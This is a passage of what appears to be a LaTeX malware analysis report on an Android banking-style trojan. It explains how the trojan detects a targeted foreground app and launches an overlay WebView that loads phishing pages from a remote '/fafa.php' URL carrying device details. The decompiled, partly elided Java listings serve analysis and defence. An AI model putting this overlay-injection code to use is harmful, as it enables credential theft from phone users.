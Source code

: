 \documentclass[10pt,titlepage]{article}
\begin{document}
If an Application was found matching the value stored in \textit{SharedPreferences} (see chapter \ref{datastructure}) the \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} Activity will be launched. (see Listing \ref{serviceinjectionfddo})

\begin{lstlisting}[label=serviceinjectionfddo,caption=The function \textit{naqsl.ebxcb.exu.ServiceInjections.fddo()} verifies if current foreground task matches to a value stored in \textit{SharedPreferences} \textbf{name} tag and launches the Activity \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} if neccessary.,frame=tb]
public void fddo() {
        [...]
        if (!this.f584fddo.fddo(this.f419for, 
                                  Cint.m430int(Cint.m430int("Ym1GdFpRPT0=" /*name*/)))
                                  .contains(Cint.m430int(
                                  Cint.m430int("ZEhKMVpRPT0=" /*true*/)))) {
           Intent putExtra = new Intent(this, ActivityInjection.class)
                     .putExtra(Cint.m430int(Cint.m430int("YzNSeQ==")), str3); // str
\end{lstlisting}

The \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} implements the \textit{onStart()} function with loads a WebView showing a URL constructed from settings and hardcoded values. This allowes the malware to update potential UI changes directly via Web resources instead of update the malware App on the client side. Also it's easier to apply attacks to new victims. (see Listing \ref{activityinjectiononstart})
\newpage
\begin{lstlisting}[label=activityinjectiononstart,caption=The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} shows a webview which allows to show dynamic content for phishing credentials or other sensitive information.,frame=tb]
public void onStart() {
        super.onStart();
        [...]
        if (!stringExtra.equals(str) || !stringExtra.equals(null)) {
            [...]
            sb.append("/fafa.php?f=");
            sb.append(stringExtra);
            sb.append("&p=");
            sb.append(this.ifdf.fddo((Context) this));
            String str2 = "|";
            sb.append(str2);
            sb.append(country.toLowerCase());
            webView.loadUrl(sb.toString());
            setContentView(webView);
            [...]
        }
    }
\end{lstlisting}


Also the \textit{naqsl.ebxcb.exu.ServiceAccessibility} (see more in chapter \ref{keylogger}) service is able to perform an Activity Injection attack if it finds an target App. (see Listing \ref{serviceaccessibilityfddorun})
\end{document}
